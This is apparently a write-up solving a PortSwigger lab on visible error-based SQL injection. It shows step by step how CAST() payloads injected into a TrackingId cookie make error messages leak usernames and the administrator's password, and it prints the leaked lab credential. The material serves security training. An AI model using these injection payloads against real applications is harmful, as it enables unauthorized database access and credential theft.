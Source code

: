 ## Lab Description -

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7b1dd11f-f3b1-440d-bb44-28ee670b8d81)


## Overview -

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an id parameter: 

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

We can induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a "visible" one.

One way of achieving this is to use the CAST() function, which enables you to convert one data type to another. For example, consider a query containing the following statement:

**Resquest payload**

```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following: 

**Response**

```sql
ERROR: invalid input syntax for type integer: "Example data"
```

> NOTE - This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the 
> query. 


## Solution - 

When clicking on any catgory in products filter, browser sends a GET request with a **tracking cookie** & a session cookie.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e432089d-8a2b-40aa-b833-6de948b77c99)

Let's try to input a special character `'` in the TrackingID parameter since it is vulnerable as per lab description to try and induce an SQL error.

```sql
Cookie: TrackingId=e00R0OKbtGq3H944';
```

**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6f796a8-4fca-49cb-9de1-9738d7f1fd63)

Now we induced an error in the application and so we got an error response back which leaked the query  being made in the backend.

```sql
SELECT * FROM tracking WHERE id = 'e00R0OKbtGq3H944''
```

Since we know what query is being made, now we can craft our payload using CAST conditional expresiions.

First we give a generic SELECT query & CAST the returned value to **int** datatype.

```sql
TrackingId=hxcQNYCw0qIfVGRe' AND CAST((SELECT 1) AS int)--
```
The subquery (SELECT 1) is selecting the value 1 from the database. The CAST function is then used to convert that value into an integer data type (AS int).

**Response**

We get a `500 Internal Server error` with the following error response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1fe94c52-7326-4f40-a87b-4b9734069c80)

It says that **AND condition must be a boolean expression.**

So we modify the injection payload with a comparison operator so that it returns boolean data.

```sql
TrackingId=hxcQNYCw0qIfVGRe' AND 1=CAST((SELECT 1) AS int)--
```

Now we get a different response ie. **The condition got TRUE and it returned all the category items** with a `200 OK` status code.


Now modify the *SELECT* query to retreive username from the database.

```sql
' AND 1=CAST((SELECT username FROM users) AS int)--
```

**Response**

We get a `500 Internal Server error` with the follwoing error response back.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7d95c1dc-4db8-46b0-bb65-f8065990fe62)

```sql
SELECT * FROM tracking WHERE id = 'hxcQNYCw0qIfVGRe' AND 1=CAST((SELECT username FROM users) AS'. Expected char
````

THe query is being truncated here. So lets either remove some or all of `trackingID` cookie value to free up some space.

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--;
```
**Response**


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a4e78b22-de7e-47a4-ba3b-a74c8aab8615)

Modify the query to return only 1 row,

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
It tries to retrieve the **username** column from the **users** table using the subquery **(SELECT username FROM users LIMIT 1)**. The **LIMIT 1** clause ensures that only one row(*first row*) is returned. 

The obtained username is then cast as an integer using the CAST function.(WHY ? - To retrieve the obtained info via the error responses)
EG - It may produce error like `User shebu is not an integer`

**Response** 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6657559f-6166-4c0b-96a3-37cf160ceb52)

Now that we know that `administrator` is the first user in the users table , let's retreive his password.

```sql
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Here in this payload we didn't giove  `WHERE username="administrator"` because LIMIT 1 ensures that it retreives the info of first column which in this case is the administrator.

Thus we got the password of the admin user via error response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f9b50f7-1043-4530-b14d-bf00e9f6817b)

Admin Credentials - `administrator:92xxhtubhmgxhsyhhldk`

Now login as admin in the shopping website to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bda09a5-5c7b-4c2b-822b-8353e27075a2)
























